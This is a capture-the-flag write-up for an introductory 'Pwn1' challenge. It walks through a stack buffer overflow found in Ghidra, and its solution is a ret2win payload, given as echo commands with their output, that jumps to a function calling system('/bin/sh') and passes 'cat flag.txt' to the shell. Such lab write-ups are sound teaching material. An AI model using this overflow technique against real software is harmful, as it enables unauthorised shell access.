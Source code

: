 ```yaml
---
title: Pwn1
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

Welcome to the series of 3 pwn challenges!

Author: NoobMaster

## Solution

We open the binary in Ghidra and instantly notice the buffer overflow on ``fgets``. It reads 0x50 (80) bytes into a 64 bytes buffer. Given the name of the local variable ``local_48``, it means we have 0x48 bytes until the return address. So, we have 8 bytes of the return address to work with.

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_48 [64];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_48,0x50,stdin);
  system("cat fake_flag.txt");
  return;
}
```

Running ``checksec`` on the binary shows that it lacks a stack canary and is not a PIE. Another interesting function in Ghidra is ``win``, which calls ``system("/bin/sh")``. This is simply an introductory buffer overflow.

```c
void win(void)
{
  system("/bin/sh");
  return;
}
```

Collect the address for ``win``: ``0x0040124a``

Use the address to create the exploit:
```
$ python3 -c 'print("a" * 0x48)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
Segmentation fault (core dumped)
```

Initially this seems like it doesn't work, but I think it's just because it doesn't properly redirect the streams. So let's add a command at the end of the output, the shell we open will receive it and execute it before closing.
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00cat flag.txt' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
n00bz{I_like_.hidden}
Segmentation fault (core dumped)
```
Success! We can see the "real" flag printed! Trust me, that's exactly what the flag was.
